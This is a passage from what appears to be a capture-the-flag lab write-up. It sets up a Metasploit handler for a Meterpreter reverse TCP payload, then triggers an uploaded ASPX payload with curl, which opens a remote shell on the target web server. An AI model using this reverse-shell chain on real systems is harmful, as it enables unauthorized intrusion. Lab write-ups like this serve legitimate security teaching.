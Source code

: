 

I'll open Metasploit and start the `exploit/multi/handler`, which
provides a listener for callbacks generated outside of Metasploit:



    msf5 > use exploit/multi/handler
    msf5 exploit(multi/handler) >
    msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf5 exploit(multi/handler) > set lhost tun0
    lhost => 10.10.14.14
    msf5 exploit(multi/handler) > set lport 443
    lport => 443

    msf5 exploit(multi/handler) > options

    Module options (exploit/multi/handler):

       Name  Current Setting  Required  Description
       ----  ---------------  --------  -----------


    Payload options (windows/meterpreter/reverse_tcp):

       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     10.10.14.14      yes       The listen address (an interface may be specified)
       LPORT     443              yes       The listen port


    Exploit target:

       Id  Name
       --  ----
       0   Wildcard Target
       
    msf5 exploit(multi/handler) > run

    [*] Started reverse TCP handler on 10.10.14.14:443



Now just visit the page:



    root@kali# curl http://10.10.10.5/met_rev_443.aspx



And get a shell:



    [*] Sending stage (179779 bytes) to 10.10.10.5
    [*] Meterpreter session 1 opened (10.10.14.14:443 -> 10.10.10.5:49164) at 2019-03-05 12:09:09 -0500

    meterpreter > getuid
    Server username: IIS APPPOOL\Web


